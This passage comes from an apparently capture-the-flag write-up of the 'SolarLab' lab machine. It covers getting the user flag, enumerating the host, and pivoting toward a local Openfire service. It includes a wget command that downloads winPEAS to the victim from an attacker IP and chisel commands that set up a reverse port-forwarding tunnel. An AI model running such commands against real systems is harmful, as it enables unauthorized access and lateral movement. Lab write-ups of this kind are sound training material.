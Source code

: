 ```html
```

sending in the repaeter tab, i got a 503 from the web server
 and a powershell session as the blake user.
 ![alt text](../images/solarlab/rev1.png)
## Initial Foothold
the user flag was found under `C:\Users\blake\Desktop\flag.txt`

checking `Users` folder, i found `openfire`, `Administrator`, and `blake`(me).


getting winpeas
```
wget "http://10.10.16.97/winPEASany.exe" -OutFile 
"C:\Users\blake\Desktop\winpeas.exe"
```
Found openfire service Running running a web protal locally on port 9090.
![alt text](../images/solarlab/listneingport.png)
```
Openfire(Openfire)["C:\Program Files\Openfire\bin\openfire-service.exe"] - Autoload
```

## Lateral Movement
Openfire is a real-time collaboration (RTC) server licensed under the Open Source Apache License.
I tried to get into `C:\Program Files\Openfire\` to look for scripts/DBs but it was resricted to openfire only.
### Openfire Web Server
port forwarding with chisel so i can interact with local server:
```
.\chisel.exe client 10.10.16.14:4321 R:9090:127.0.0.1:9090   #on-victim
chisel server --socks5 --reverse -p 4321                     #on-attacker
```

Navigating to localhost:9090